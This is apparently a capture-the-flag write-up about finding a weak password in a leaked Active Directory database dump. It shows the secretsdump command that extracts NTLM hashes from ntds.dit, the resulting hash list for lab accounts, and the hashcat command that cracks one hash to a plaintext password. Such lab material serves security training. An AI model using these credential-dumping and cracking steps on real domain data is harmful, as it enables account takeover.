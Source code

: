 # Oh No! They dumped our secrets!

## Instructions

Oh no! You found a dump of the Active Directory database in C:\temp on your domain controller. See if there's any enabled user accounts with weak passwords that the enemy may discover. Be sure to let us know which user had a weak password, and what the password is in the following format FLAG{username:password}.

## Solutions

LETS GOo this is being written at 3 am after the ctf so apologies in advance.

We were given two files, the `ntds.dit` and `SYSTEM`. Given the challenge asks for insecure passwords we're looking for password hashes, and ntds.dit contains those! Using impacket we can extract ntlm hashes for our users which we can then crack with good ol' john or hashcat.

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

This gives us a file filled with user info and password hashes, which can be broken down as username: (Administrator), userid: (500) , lmhash: (aad3b435b51404eeaad3b435b51404ee) and ntlmhash: (3f29b6875fdf3169667d2bf6aad24101).

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f29b6875fdf3169667d2bf6aad24101:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1001:aad3b435b51404eeaad3b435b51404ee:e4e9637a97ac7e22c01a65e66cdf09dd:::
DC1$:1002:aad3b435b51404eeaad3b435b51404ee:49dd1c81ab4def69034f8b7e3e844c44:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:20c98e40fd6b26928d7baacd3b78d1b5:::
janet:1106:aad3b435b51404eeaad3b435b51404ee:9e13fc4028a98ac6c6accad6d622ea58:::
paula:1107:aad3b435b51404eeaad3b435b51404ee:b61ebaf5155b25e5cbf15a0f1e46b315:::
phyllis:1108:aad3b435b51404eeaad3b435b51404ee:fad72f66719509d816e1584dfa04fced:::
thomasz:1109:aad3b435b51404eeaad3b435b51404ee:4fc491eb90e637c3e35b17d2fa39f0be:::
trenton:1110:aad3b435b51404eeaad3b435b51404ee:477c9029fbd8818f933598608a077127:::
vanessa:1111:aad3b435b51404eeaad3b435b51404ee:db2f349340c18058b6953dc7b31bd343:::
warren:1114:aad3b435b51404eeaad3b435b51404ee:13fd14a72ede72673312ffef1af4c6c0:::
hishani:1115:aad3b435b51404eeaad3b435b51404ee:84fc0cade72ac6454b4d47c13f9b3206:::
george:1116:aad3b435b51404eeaad3b435b51404ee:bf09559a98e5646a181926903886b709:::
```

Due to me being a gremlin and using wsl, both hashcat and jack were playing up on windows, so I had to use hashcat on linux. We just wanted the ntlm hashes so we remove all the other data 

```shell
cat ntlm-extract.ntds | cut -d : -f 4 > JustTheHashes.txt
~/tools/hashcat-6.2.4/hashcat.bin -m 1000 ./JustTheHashes.txt /home/social_anthrax/tools/password_lists/rockyou.txt
```

And viola, we have the password in all it's glory `13fd14a72ede72673312ffef1af4c6c0:lizard11`, doing a quick reverse search we get the password user to be warren

**flag{warren:lizard11}**




